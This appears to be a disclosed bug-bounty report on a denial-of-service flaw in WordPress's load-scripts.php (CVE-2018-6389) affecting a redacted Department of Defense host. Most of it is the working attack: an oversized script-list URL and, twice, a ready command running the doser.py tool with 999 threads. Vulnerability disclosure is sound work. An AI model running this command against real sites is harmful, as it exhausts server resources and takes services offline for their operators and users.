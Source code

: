 # DoS at █████(CVE-2018-6389)

## Report Details
- **Report ID**: 1887996
- **URL**: https://hackerone.com/reports/1887996
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-02-27T06:52:30.534Z
- **Disclosed**: 2023-03-24T17:34:39.433Z

## Reporter
- **Username**: a4hamkhan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

Unauthenticated attackers can cause a denial of service (resource consumption) listing a large number of registered .js files (from wp-includes/script-loader.php)

Vulnerable Url : https://██████████/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

**Vulnerability**

An attacker can now use the below tool to implement the attack
- https://github.com/quitten/doser.py
command : python3 doser.py -g "https://██████/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter" -t 999

## Impact

Attackers can use this vulnerable function to deplete server resources and launch denial of service attacks.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2018-6389

## Steps to Reproduce
1. clone this tool https://github.com/quitten/doser.py
2. now go to the directory of the cloned tool
3. now execute this command :
python3 doser.py -g "https://█████/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter" -t 999

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
